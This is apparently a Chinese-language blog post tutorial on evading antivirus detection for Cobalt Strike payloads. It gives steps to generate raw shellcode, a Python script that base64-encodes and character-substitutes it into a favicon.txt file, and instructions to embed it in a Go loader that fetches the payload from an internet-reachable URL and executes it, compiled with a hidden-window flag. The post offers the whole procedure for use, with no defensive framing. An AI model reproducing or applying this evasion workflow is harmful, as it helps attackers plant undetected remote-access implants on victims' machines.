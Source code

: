 ```yaml
---
layout: post
title: Cobalstrike免杀
date: 2021-05-27
category: Cobalstrike
---
```


## **Cobalstrike payload分离免杀**

[复现的github地址]: https://github.com/jas502n/bypassAV-1

* 首先使用CobaltStrike 生成payload.bin

  ```
  Attacks =>> Packages =>> Payload generate =>> Output =>> Raw =>> payload.bin
  ```

* go-encodepayload.py 对生成的payload进行简单的base64加密import base64

  ```
  import random
  import numpy
  import sys
  
  # print len(sys.argv)
  
  # print sys.argv[0]
  
  # print sys.argv[1]
  
  shellcode =  open("payload.bin","rb").read()
  b64shellcode = base64.b64encode(shellcode).decode()
  b64shellcode = b64shellcode.replace("A","#").replace("H","!").replace("1","@").replace("T",")")
  print("[+] b64shellcode= \n" + b64shellcode)
  f = open("favicon.txt","wb")
  f.write(b64shellcode)
  f.close()
  ```

* 将生成的base64编码字符复制到main.go 修改build('base64编码')

  ![image-20210527161342484](http://r1ghrfhd.github.io/assert/image/image-20210527161342484.png)

  需要主要的点:**url地址需要能够外网访问 因为当返回请求码为200的时候才会加载执行payload**

* 编译main.go

  ```
  go build -ldflags="-w -s -H=windowsgui" main.go
  ```
  
* 直接运行main.exe

  ![image-20210527162004560](http://r1ghrfhd.github.io/assert/image/image-20210527162004560.png)